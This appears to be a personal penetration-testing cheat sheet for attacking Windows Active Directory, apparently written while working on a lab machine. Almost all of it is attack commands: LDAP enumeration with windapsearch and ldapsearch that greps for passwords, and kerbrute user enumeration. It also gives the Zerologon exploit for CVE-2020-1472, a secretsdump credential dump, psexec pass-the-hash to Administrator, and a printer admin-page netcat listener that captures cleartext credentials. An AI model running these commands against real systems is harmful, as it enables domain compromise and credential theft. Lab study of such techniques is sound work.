 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### windapsearch.py

```bash - kali
cd /opt && sudo git clone https://github.com/ropnop/windapsearch
```

```bash - kali
sudo apt install python3-ldap
```

```bash - kali
cd windapsearch && ./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U
```

```bash - kali
./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U --full | grep Password
```

```bash - kali
./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U > users
```

#### ldapsearch
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" | grep -i "description"
```

```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" | grep -i "password"
```

```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" > ldapsearch.txt
```

![[Pasted image 20220114104148.png]]

0 means "no lock out policy"

Script to verify user's creds:

##### zerologon
```bash - kali
git clone https://github.com/SecuraBV/CVE-2020-1472
```

```bash - kali
cd CVE-2020-1472 && pip install -r requirements.txt
```

Next, look at the nmap results below to find the CN value:

```bash - kali
tcp_389_ldap_nmap.txt
```

![[Pasted image 20220105211456.png]]

```bash - kali
python3 zerologon_tester.py $DOMAIN_NAME $TARGET
```

![[Pasted image 20220105211656.png]]

```bash - kali
/opt/enum4linux-ng/enum4linux-ng.py $TARGET -A -C
```
  
Now add the target to the hosts file:

```bash - kali
sudo echo '$TARGET $DOMAIN' | sudo tee -a /etc/hosts
```

```bash - kali
sudo apt install golang
```

```bash - kali
go get github.com/ropnop/kerbrute
```

```bash - kali
cd kerbrute
```

```bash - kali
make linux
```

```bash - kali
cd dist
```

```bash - kali
./kerbrute_linux_amd64 userenum -d $DOMAIN --dc $DOMAIN /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

```bash - kali
git clone https://github.com/dirkjanm/CVE-2020-1472
```

```bash - kali
cd CVE-2020-1472
```

```bash - kali
sudo python3 cve-2020-1472-exploit.py $DOMAIN_CONTROLLER_NAME $TARGET
```

   
```bash - kali
secretsdump.py -hashes :$HASH '$DOMAIN/$DOMAIN_CONTROLLER_NAME@$TARGET'
```

Using empty LM hash:
```bash - kali
psexec.py Administrator@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```


#### Printer Admin Page

```bash - kali
sudo rlwrap -cAr nc -lvnp 389
```

Navigate to settings page:

![[Pasted image 20220218175015.png]]

Enter your Kali IP in the Server Address field.

Click update, get clear text creds in listener.



